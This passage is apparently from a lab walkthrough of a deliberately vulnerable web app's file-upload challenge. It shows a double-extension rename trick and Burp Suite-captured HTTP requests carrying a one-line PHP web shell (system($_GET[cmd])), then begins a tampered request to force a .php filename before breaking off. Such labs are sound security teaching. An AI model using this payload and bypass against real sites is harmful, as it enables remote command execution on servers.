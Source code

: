 #### Normal

Again we try to upload the previous file, this time we get an error because it does not have the right **extension**. To solve this problem we are going to use the double extension trick to execute the following command `cp a.php b.php.png`. We try to upload our new file, **but** before uploading this we activate the Burp Proxy Toogler extension in our Firefox browser, we also open the Burpsuite tool and enable the interception of packets in it, once all this is done we press the upload button.

The content of the request intercepted by Burpsuite is as follows:

```txt
POST /vulnerabilities/upload/ HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.0.2/vulnerabilities/upload/
Content-Type: multipart/form-data; boundary=---------------------------536677127989003954171006071
Content-Length: 483
Origin: http://172.17.0.2
DNT: 1
Connection: close
Cookie: PHPSESSID=t7oqci4giki4go7bmleo7b4vc5; security=medium
Upgrade-Insecure-Requests: 1

-----------------------------536677127989003954171006071
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
-----------------------------536677127989003954171006071
Content-Disposition: form-data; name="uploaded"; filename="b.php.png"
Content-Type: image/png

<?php system($_GET[cmd]);?>

-----------------------------536677127989003954171006071
Content-Disposition: form-data; name="Upload"

Upload
-----------------------------536677127989003954171006071--

```

One of the main features of Burpsuite apart from capturing packages is the possibility to modify them on the fly, the most obvious change worth trying is to change the value of the filename variable so that the final extension is just `.php`. The modified package is attached below:

```txt
POST /vulnerabilities/upload/ HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.0.2/vulnerabilities/upload/
Content-Type: multipart/form-data; boundary=---------------------------536677127989003954171006071
Content-Length: 483
Origin: http://172.17.0.2
DNT: 1
Connection: close
Cookie: PHPSESSID=t7oqci4giki4go7bmleo7b4vc5; security=medium
Upgrade-Insecure-Requests: 1

-----------------------------536677127989003954171006071
Content-Disposition: form-data; name="MAX_FILE_SIZE"
```